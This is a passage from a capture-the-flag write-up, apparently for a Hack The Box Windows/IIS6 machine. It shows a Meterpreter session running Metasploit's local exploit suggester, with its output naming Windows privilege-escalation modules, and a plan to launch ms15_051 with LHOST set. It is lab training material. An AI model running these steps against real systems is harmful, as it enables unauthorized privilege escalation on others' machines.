 </code></pre>

I lacked an understanding of what to do next so I returned the msfconsole to search for IIS6 exploits and began to follow a Bypass Auth exploit, which should get me into the Administrator and Lakis folders that I previously did not have access to

***

### Write Up referenced at this point

Within the meterpreter shell, I can further search for exploits for the local environment:

```
(Meterpreter 1)(c:\Documents and Settings) > run post/multi/recon/local_exploit_suggester

[*] 10.10.10.15 - Collecting local exploits for x86/windows...
[*] 10.10.10.15 - 188 exploit checks are being tried...
[+] 10.10.10.15 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Running check method for exploit 41 / 41
[*] 10.10.10.15 - Valid modules for session 1:
============================

 #   Name                                                           Potentially Vulnerable?  Check Result
 -   ----                                                           -----------------------  ------------
 1   exploit/windows/local/ms10_015_kitrap0d                        Yes                      The service is running, but could not be validated.
 2   exploit/windows/local/ms14_058_track_popup_menu                Yes                      The target appears to be vulnerable.
 3   exploit/windows/local/ms14_070_tcpip_ioctl                     Yes                      The target appears to be vulnerable.
 4   exploit/windows/local/ms15_051_client_copy_image               Yes                      The target appears to be vulnerable.
 5   exploit/windows/local/ms16_016_webdav                          Yes                      The service is running, but could not be validated.
 6   exploit/windows/local/ppr_flatten_rec                          Yes                      The target appears to be vulnerable.

```

Next, I background the session and use the client\_copy\_image exploit in msfconsole, setting the SESSION to 1 and LHOST to tun0:

<pre><code>(Meterpreter 1)(c:\Documents and Settings) > background
[*] Backgrounding session 1...
